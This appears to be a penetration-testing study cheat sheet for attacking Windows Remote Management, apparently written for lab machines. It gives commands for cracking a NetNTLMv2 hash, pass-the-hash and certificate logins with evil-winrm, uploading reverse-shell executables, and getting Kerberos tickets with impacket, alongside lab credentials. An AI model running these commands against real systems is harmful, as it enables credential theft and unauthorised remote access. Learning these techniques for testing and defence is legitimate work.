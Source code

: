 # (5985) WinRM

<details>

<summary>Uses</summary>

* Remotely communicate and interface with hosts

- Execute commands remotely on systems that are not local to you but are network accessible

* Monitor, manage and configure servers, operating systems and client machines from a remote location

</details>

<details>

<summary>Cracking NetNTLMv2 hashes for login</summary>

```bash
echo "Administrator::DESKTOPH3OF232:1122334455667788:7E0A87A2CCB487AD9B76C7B0AEAEE133:0101000000000000005F3214B534D
801F0E8BB688484C96C0000000002000800420044004F00320001001E00570049004E002D004E0048004500
3800440049003400410053004300510004003400570049004E002D004E00480045003800440049003400410
05300430051002E00420044004F0032002E004C004F00430041004C0003001400420044004F0032002E004C
004F00430041004C0005001400420044004F0032002E004C004F00430041004C0007000800005F3214B534D
801060004000200000008003000300000000000000001000000002000000C2FAF941D04DCECC6A7691EA926
30A77E073056DA8C3F356D47C324C6D6D16F0A0010000000000000000000000000000000000009002000630
06900660073002F00310030002E00310030002E00310034002E00320035000000000000000000" >
hash.txt
```

```
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

</details>

<details>

<summary>Evil-winrm for login</summary>

* Using password:

```bash
evil-winrm -i 10.129.136.91 -u administrator -p badminton
```

* Using hash:

```bash
evil-winrm -i 10.11.1.21 -u pete -H 0f951bc4fdc5dfcd148161420b9c6207
```

* Uploading files to Victim

```bash
upload reverse_139.exe
```

</details>

<details>

<summary>Upload/Download files (Evil-Winrm)</summary>

### Download (have to put full file paths)

```bash
download c:\temp\20230511182430_BloodHound.zip /oscp/ad/20230511182430_BloodHound.zip
```

### Upload (doesn't need full file paths)

```bash
upload reverse.exe
```

</details>

<details>

<summary>Enter-PSSession</summary>

```powershell
$cred = New-Object System.Management.Automation.PSCredential ("cowmotors\svc_web", $password)

$session = Enter-PSSession -computername "WEB02" -credential $cred

$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist "cowmotors.com\svc_web",$passwd
```

</details>

<details>

<summary>Login via PFX File</summary>

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out publicCert.pem
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv-key.pem -nodes

# Since port 5986 (WinRM with SSL) is open instead of 5985 (WinRM):
evil-winrm -i 10.10.11.152 -c publicCert.pem -k priv-key.pem -S
```

</details>

<details>

<summary>Evil-WinRM Kerberos Login</summary>

Edit /etc/krb5.conf

```bash
[libdefaults]
        default_realm = SCRM.LOCAL

[realms]
SCRM.LOCAL = {
        kdc = dc1.scrm.local
}

[domain_realm]
        .scrm.local = SCRM.LOCAL
        scrm.local = SCRM.LOCAL
```

Create ticket for MiscSvc:

```bash
impacket-getTGT scrm.local/MiscSvc:ScrambledEggs9900
```

Login via evil-winrm

```bash
export KRB5CCNAME=MiscSvc.ccache
sudo rdate -n 10.10.11.168

evil-winrm -r scrm.local -i dc1.scrm.local
```

</details>
